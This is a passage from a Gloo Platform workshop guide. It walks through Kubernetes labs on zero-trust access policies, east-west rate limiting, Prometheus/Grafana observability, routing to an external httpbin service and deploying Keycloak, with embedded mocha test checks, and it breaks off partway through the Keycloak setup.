pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

You shouldn't get a `200` response code, which means that the communication isn't allowed.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication not allowed", () => {
  it("Response code shouldn't be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=not-in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" --max-time 3 http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/zero-trust/tests/not-in-mesh-to-in-mesh-not-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following commands to initiate a communication from a service which is in the mesh to another service which is in the mesh:

```
pod=$(kubectl --context ${CLUSTER1} -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${CLUSTER1} -n httpbin debug -i -q ${pod} --image=curlimages/curl -- curl -s -o /dev/null -w "%{http_code}" http://reviews.bookinfo-backends.svc.cluster.local:9080/reviews/0
```

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Communication not allowed", () => {
  it("Response code shouldn't be 200", () => {
    const podName = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin get pods -l app=in-mesh -o jsonpath='{.items[0].metadata.name}'" }).replaceAll("'", "");
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n httpbin debug -i -q " + podName + " --image=curlimages/curl -- curl -s -o /dev/null -w \"%{http_code}\" --max-time 3 http://reviews.bookinfo-backends:9080/reviews/0" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/zero-trust/tests/in-mesh-to-in-mesh-not-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You shouldn't get a `200` response code, which means that the communication isn't allowed.

You've see seen how Gloo Platform can help you to enforce a zero trust policy (at workspace level) with nearly no effort.

Now we are going to define some additional policies to achieve zero trust at service level.

We are going to define AccessPolicies from the point of view of a service producers. 

> I am owner of service A, which services needs to communicate with me?


Productpage app is the only service which is exposed to the internet, so we will create an `AccessPolicy` to allow the Istio Ingress Gateway to forward requests to the productpage service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-productpage
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: productpage
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: istio-ingressgateway-1-17-service-account
          namespace: istio-gateways
      - serviceAccountSelector:
          name: istio-eastwestgateway-1-17-service-account
          namespace: istio-gateways
      - serviceAccountSelector:
          name: ext-auth-service
          namespace: gloo-mesh-addons
      - serviceAccountSelector:
          name: rate-limiter
          namespace: gloo-mesh-addons
EOF
```

Details and reviews are both used by the productpage service, so we will create an AccessPolicy to allow the productpage service to forward requests to the details and reviews services.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-details-reviews
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: details
  - selector:
      labels:
        app: reviews
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: bookinfo-productpage
EOF
```

Finally, we will create an AccessPolicy to allow the reviews service to forward requests to the ratings service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-ratings
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - selector:
      labels:
        app: ratings
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          name: bookinfo-reviews
EOF
```

Let's check that requests from `productpage` are denied/allowed properly:

```sh
pod=$(kubectl --context ${CLUSTER1} -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}')
echo "From productpage to details, should be allowed"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://details.bookinfo-backends:9080/details/0 | jq

echo "From productpage to reviews, should be allowed"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://reviews.bookinfo-backends:9080/reviews/0 | jq

echo "From productpage to ratings, should be denied"
kubectl --context ${CLUSTER1} -n bookinfo-frontends debug -i -q ${pod} --image=curlimages/curl -- curl -s http://ratings.bookinfo-backends:9080/ratings/0
```

You shouldn't get a `200` response code for the last one, which means that the communication isn't allowed.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Communication status", () => {

  it("Response code shouldn't be 200 accessing ratings", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://ratings.bookinfo-backends:9080/ratings/0', timeout=3); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).not.to.contain("200");
  });

  it("Response code should be 200 accessing reviews", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://reviews.bookinfo-backends:9080/reviews/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });

  it("Response code should be 200 accessing details", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://details.bookinfo-backends:9080/details/0'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/zero-trust/tests/bookinfo-access.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
Let's rollback the change we've made in the `WorkspaceSettings` object:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: bookinfo
  namespace: bookinfo-frontends
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
EOF
```

and delete the `AccessPolicies`:

```bash
kubectl --context ${CLUSTER1} delete accesspolicies -n bookinfo-frontends --all
```


## Lab 14 - Apply rate limiting to east west communication <a name="lab-14---apply-rate-limiting-to-east-west-communication-"></a>


In this step, we're going to apply rate limiting to east west traffic to only allow 3 requests per minute from the `productpage` to the `details` service.

First, we need to create a `RateLimitClientConfig` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: details
  namespace: bookinfo-frontends
spec:
  raw:
    rateLimits:
    - actions:
      - genericKey:
          descriptorValue: counter
EOF
```

Then, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: details
  namespace: bookinfo-frontends
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    descriptors:
    - key: generic_key
      rateLimit:
        requestsPerUnit: 3
        unit: MINUTE
      value: counter
EOF
```

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: details
  namespace: bookinfo-frontends
spec:
  applyToDestinations:
  - port:
      number: 9080
    selector:
      labels:
        app: details
  config:
    serverSettings:
      name: rate-limit-server
      namespace: bookinfo-frontends
      cluster: cluster1
    ratelimitClientConfig:
      name: details
      namespace: bookinfo-frontends
      cluster: cluster1
    ratelimitServerConfig:
      name: details
      namespace: bookinfo-frontends
      cluster: cluster1
EOF
```

We also need to create a `RateLimitServerSettings`, which is a CRD that define which extauth server to use: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: bookinfo-frontends
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF
```

Now, run the following command several time:

```
kubectl --context $CLUSTER1 -n bookinfo-frontends exec -it $(kubectl --context $CLUSTER1 -n bookinfo-frontends get pods -l app=productpage -o jsonpath='{.items[0].metadata.name}') -- python -c "import requests; r = requests.get('http://details.bookinfo-backends:9080/details/0'); print(r.status_code)"
```

It sends a request from the `productpage` to the `details` service and display the HTTP response status code.

You should get a `200` response code the first 3 time and a `429` response code after.

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("The productpage service should be rate limited after calling the details service more than 3 times", () => {
  const command = "kubectl -n bookinfo-frontends exec deploy/productpage-v1 --context " + process.env.CLUSTER1 + " -- python -c \"import requests; r = requests.get('http://details.bookinfo-backends:9080/details/0'); print(r.status_code)\"";
  it('Got the expected status code 429', () => helpers.genericCommand({ command: command, responseContains: "429" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/bookinfo/eastwest-ratelimiting/tests/rate-limited.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

And also delete the different objects we've created:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete ratelimitpolicy details
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete ratelimitclientconfig details
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete ratelimitserverconfig details
kubectl --context ${CLUSTER1} -n bookinfo-frontends delete ratelimitserversettings rate-limit-server
```


## Lab 15 - See how Gloo Platform can help with observability <a name="lab-15---see-how-gloo-platform-can-help-with-observability-"></a>
[](https://youtu.be/UhWsk4YnOy0 "Video Link")

# Observability with Gloo Platform

Let's take a look at how Gloo Platform can help with observability!


Our telemetry pipeline's main goal is to collect all the metrics, and securely forward them to the management cluster, making all the metrics available for our UI to visualize the service graph.

Since our pipeline is leveraging OpenTelemetry, this pipeline can be customized and extended to cover all possible use-cases, e.g. collecting telemetry from other workloads, or integrating with centralized observability platform/SaaS solutions.

## Gloo Platform Operational Dashboard 

First let's deploy the usual Prometheus stack, and explore our management plane metrics.

```bash
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo update

helm upgrade --install kube-prometheus-stack \
prometheus-community/kube-prometheus-stack \
--kube-context ${MGMT} \
--version 44.3.1 \
--namespace monitoring \
--create-namespace \
--values - <<EOF
grafana:
  service:
    type: LoadBalancer
    port: 3000
  additionalDataSources:
  - name: prometheus-GM
    uid: prometheus-GM
    type: prometheus
    url: http://prometheus-server.gloo-mesh:80
EOF
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("kube-prometheus-stack deployments are ready", () => {
  it('kube-prometheus-stack-kube-state-metrics pods are ready', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "monitoring", k8sObj: "kube-prometheus-stack-kube-state-metrics" }));
  it('kube-prometheus-stack-grafana pods are ready', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "monitoring", k8sObj: "kube-prometheus-stack-grafana" }));
  it('kube-prometheus-stack-operator pods are ready', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "monitoring", k8sObj: "kube-prometheus-stack-operator" }));
});

describe("kube-prometheus-stack daemonset is ready", () => {
  it('kube-prometheus-stack-prometheus-node-exporter pods are ready', () => helpers.checkDaemonSet({ context: process.env.MGMT, namespace: "monitoring", k8sObj: "kube-prometheus-stack-prometheus-node-exporter" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/gloo-platform-observability/tests/grafana-installed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
Let's install a few dashboards!

Now, you can go the the Grafana tab, log in with the default login credentials, admin/prom-operator, and import the dashboard of Istio control plane.

Add the Operational Dashboard
=============================


Our Gloo components are all instrumented with Prometheus compatible metrics, providing an easy way to pinpoint a potential degradation.

You can import the following dashboard to see our Operational Dashboard, covering all of our components in the stack.

Here, you have specific rows for each components, such as the management server, the agent, the telemetry collectors, and some additional information regarding resource usage.

```bash
kubectl --context ${MGMT} -n monitoring create cm operational-dashboard \
--from-file=data/steps/gloo-platform-observability/operational-dashboard.json
kubectl --context ${MGMT} label -n monitoring cm operational-dashboard grafana_dashboard=1
```

Out-of-box alerting
===================
			    
Our Prometheus comes with useful alerts by default, making it easier to get notified if something breaks.

All of the default alerts have corresponding panels on the Operational Dashboard.

You can click the "Bell" icon on the left, and choose "Alert rules", and check "GlooPlatformAlerts" to take a closer look at them. 

Let's trigger one of the alerts!

If you scale down the Gloo Agent in let's say `cluster1`, you should have an alert called `GlooPlatformAgentsAreDisconnected` go into first PENDING, then FIRING, let's check this!

```sh
kubectl --context $CLUSTER1 scale deployment.apps/gloo-mesh-agent -n gloo-mesh --replicas=0
```

The alert will fire in 5m, but even before that, it will reach PENDING state, let's wait for this!

Don't forget to scale it up after:

```sh
kubectl --context $CLUSTER1 scale deployment.apps/gloo-mesh-agent -n gloo-mesh --replicas=1
```

Collect remote IstioD metrics securely
======================================

Let's take a look how easy it is to modify the metrics collection in the workload clusters, to collect IstioD metrics, and ship them to the management cluster over TLS.

```bash
helm upgrade --install gloo-platform gloo-platform/gloo-platform \
  --namespace gloo-mesh \
  --kube-context=${CLUSTER1} \
  --reuse-values \
  --version 2.4.2 \
  --values - <<EOF
telemetryCollectorCustomization:
  extraProcessors:
    batch/istiod:
      send_batch_size: 10000
      timeout: 10s
    filter/istiod:
      metrics:
        include:
          match_type: regexp
          metric_names:
            - "pilot.*"
            - "process.*"
            - "go.*"
            - "container.*"
            - "envoy.*"
            - "galley.*"
            - "sidecar.*"
            - "istio_build.*"
  extraPipelines:
    metrics/istiod:
      receivers:
      - prometheus
      processors:
      - memory_limiter
      - batch/istiod
      - filter/istiod
      exporters:
      - otlp
EOF
```

This configuration update will
  - create a new processor, called `filter/istiod`, that will enable all the IstioD/Pilot related metrics
  - create a new pipeline, called `metrics/istiod`, that will have the aforementioned processor to include the control plane metrics

Then, we just need to perform a rollout restart for the metrics collector, so the new pods can pick up the config change.

```bash
kubectl --context $CLUSTER1 rollout restart daemonset/gloo-telemetry-collector-agent -n gloo-mesh
```

Now, let's import the Istio Control Plane Dashboard, and see the metrics!
```bash
kubectl --context ${MGMT} -n monitoring create cm istio-control-plane-dashboard \
--from-file=data/steps/gloo-platform-observability/istio-control-plane-dashboard.json
kubectl --context ${MGMT} label -n monitoring cm istio-control-plane-dashboard grafana_dashboard=1
```


## Lab 16 - Create the httpbin workspace <a name="lab-16---create-the-httpbin-workspace-"></a>

We're going to create a workspace for the team in charge of the httpbin application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, the Httpbin team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `httpbin` workspace:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: httpbin
  namespace: httpbin
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: in-mesh
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Httpbin team has decided to export the following to the `gateway` workspace (using a reference):
- the `in-mesh` Kubernetes service
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`


## Lab 17 - Expose an external service <a name="lab-17---expose-an-external-service-"></a>
[](https://youtu.be/jEqDoITpRss "Video Link")

In this step, we're going to expose an external service through a Gateway using Gloo Mesh and show how we can then migrate this service to the Mesh.

Let's create an `ExternalService` corresponding to `httpbin.org`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - httpbin.org
  ports:
  - name: http
    number: 80
    protocol: HTTP
  - name: https
    number: 443
    protocol: HTTPS
    clientsideTls: {}
EOF
```

Now, you can create a `RouteTable` to expose `httpbin.org` through the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should now be able to access `httpbin.org` external service through the gateway.

Get the URL to access the `httpbin` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
```

Let's update the `RouteTable` to direct 50% of the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - kind: EXTERNAL_SERVICE
          port:
            number: 443
          ref:
            name: httpbin
            namespace: httpbin
          weight: 50
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
          weight: 50
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the external service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-external.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh your browser, you should see that you get a response either from the local service or from the external service.

When the response comes from the external service (httpbin.org), there's a `X-Amzn-Trace-Id` header.

And when the response comes from the local service, there's a `X-B3-Parentspanid` header.

Finally, you can update the `RouteTable` to direct all the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/apps/httpbin/gateway-external-service/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh your browser, you should see that you get responses only from the local service.

This diagram shows the flow of the requests :


Let's delete the `ExternalService` we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete externalservices.networking.gloo.solo.io httpbin
```


## Lab 18 - Deploy Keycloak <a name="lab-18---deploy-keycloak-"></a>

In many use cases, you need to restrict the access to your applications to authenticated users. 

OIDC (OpenID Connect) is an identity layer on top of the OAuth 2.0 protocol. In OAuth 2.0 flows, authentication is performed by an external Identity Provider (IdP) which, in case of success, returns an Access Token representing the user identity. The protocol does not define the contents and structure of the Access Token, which greatly reduces the portability of OAuth 2.0 implementations.

The goal of OIDC is to address this ambiguity by additionally requiring Identity Providers to return a well-defined ID Token. OIDC ID tokens follow the JSON Web Token standard and contain specific fields that your applications can expect and handle. This standardization allows you to switch between Identity Providers  or support multiple ones at the same time  with minimal, if any, changes to your downstream services; it also allows you to consistently apply additional security measures like Role-based Access Control (RBAC) based on the identity of your users, i.e. the contents of their ID token.

In this lab, we're going to install Keycloak. It will allow us to setup OIDC workflows later.

Let's install it:

```bash
kubectl --context ${MGMT} create namespace keycloak

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:20.0.1
        args: ["start-dev"]
        env:
        - name: KEYCLOAK_ADMIN
          value: "admin"
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: "admin"
        - name: PROXY_ADDRESS_FORWARDING
          value: "true"
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/master
            port: 8080
EOF

kubectl --context ${MGMT} -n keycloak rollout status deploy/keycloak
```


<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.MGMT, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec("kubectl --context " + process.env.MGMT + " -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'");
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-all-no-ilm-beta/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Then, we will configure it and create two users:

- User1 credentials: `user1/password`
  Email: user1@example.com

- User2 credentials: `user2/password`
  Email: user2@solo.io

<!--bash
until [[ $(kubectl --context ${MGMT} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${MGMT} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/master/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/master/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->

Now, we need to get a token:

```bash
export KEYCLOAK_TOKEN=$(curl -m 2 -d "client_id=admin-cli" -d "username=admin" -d "password=admin" -d "grant_type=password" "$KEYCLOAK_URL/realms/master/protocol/openid-connect/token" | jq -r .access_token)
```

After that, we configure Keycloak:

```bash
# Create initial token to register the client
read -r client token <<<$(curl -m 2 -H "Authorization: Bearer ${KEYCLOAK_TOKEN}" -X POST -H "Content-Type: application/json" -d '{"expiration": 0, "count": 1}' $KEYCLOAK_URL/admin/realms/master/clients-initial-access | jq -r '[.id, .token] | @tsv')
export KEYCLOAK_CLIENT=${client}

# Register the client
read -r id secret <<<$(curl -m 2 -X POST -d "{ \"clientId\": \"${KEYCLOAK_CLIENT}\" }" -H "Content-Type:application/json" -H "Authorization: bearer ${token}" ${KEYCLOAK_URL}/realms/master/clients-registrations/default| jq -r '[.id, .secret] | @tsv')
export KEYCLOAK_SECRET=${secret}

# Add allowed redirect URIs
